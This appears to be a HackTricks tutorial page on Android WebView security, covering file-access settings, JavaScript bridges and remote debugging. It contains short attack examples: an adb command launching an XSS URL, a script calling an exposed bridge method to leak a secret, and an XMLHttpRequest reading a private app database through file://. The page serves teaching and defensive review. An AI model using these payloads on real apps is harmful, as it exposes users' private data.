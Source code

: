 # Webview Attacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Simplified Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

A critical aspect of Android development involves the correct handling of WebViews. This guide highlights key configurations and security practices to mitigate risks associated with WebView usage.

![WebView Example](../../.gitbook/assets/image%20(718).png)

### **File Access in WebViews**

By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the **android.permission.READ_EXTERNAL_STORAGE** permission can read files from external storage using a file URL scheme (`file://path/to/file`).

#### **Deprecated Features: Universal and File Access From URLs**

- **Universal Access From File URLs**: This deprecated feature allowed cross-origin requests from file URLs, posing a significant security risk due to potential XSS attacks. The default setting is disabled (`false`) for apps targeting Android Jelly Bean and newer.
  - To check this setting, use `getAllowUniversalAccessFromFileURLs()`.
  - To modify this setting, use `setAllowUniversalAccessFromFileURLs(boolean)`.

- **File Access From File URLs**: This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.
  - Use `getAllowFileAccessFromFileURLs()` to check and `setAllowFileAccessFromFileURLs(boolean)` to set.

#### **Secure File Loading**

For disabling file system access while still accessing assets and resources, the `setAllowFileAccess()` method is used. With Android R and above, the default setting is `false`.
- Check with `getAllowFileAccess()`.
- Enable or disable with `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

The **WebViewAssetLoader** class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

### **JavaScript and Intent Scheme Handling**

- **JavaScript**: Disabled by default in WebViews, it can be enabled via `setJavaScriptEnabled()`. Caution is advised as enabling JavaScript without proper safeguards can introduce security vulnerabilities.

- **Intent Scheme**: WebViews can handle the `intent` scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "support_url" that could be exploited to execute cross-site scripting (XSS) attacks.

![Vulnerable WebView](../../.gitbook/assets/image%20(719).png)

Exploitation example using adb:

```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```

### Javascript Bridge

A feature is provided by Android that enables **JavaScript** in a WebView to invoke **native Android app functions**. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a _WebView JavaScript bridge_. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

### Important Considerations

- **Extreme caution is required** for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** can interact with native code, as shown in the examples where a class method is exposed to JavaScript:

```javascript
@JavascriptInterface
public String getSecret() {
    return "SuperSecretPassword";
};
```

- JavaScript Bridge is enabled by adding an interface to the WebView:

```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```

- Potential exploitation through JavaScript, for instance, via an XSS attack, enables the calling of exposed Java methods:

```html
<script>alert(javascriptBridge.getSecret());</script>
```

- To mitigate risks, **restrict JavaScript bridge usage** to code shipped with the APK and prevent loading JavaScript from remote sources. For older devices, set the minimum API level to 17.

### Reflection-based Remote Code Execution (RCE)

- A documented method allows achieving RCE through reflection by executing a specific payload. However, the `@JavascriptInterface` annotation prevents unauthorized method access, limiting the attack surface.

### Remote Debugging

- **Remote debugging** is possible with **Chrome Developer Tools**, enabling interaction and arbitrary JavaScript execution within the WebView content.

#### Enabling Remote Debugging

- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```

- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```


## References
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
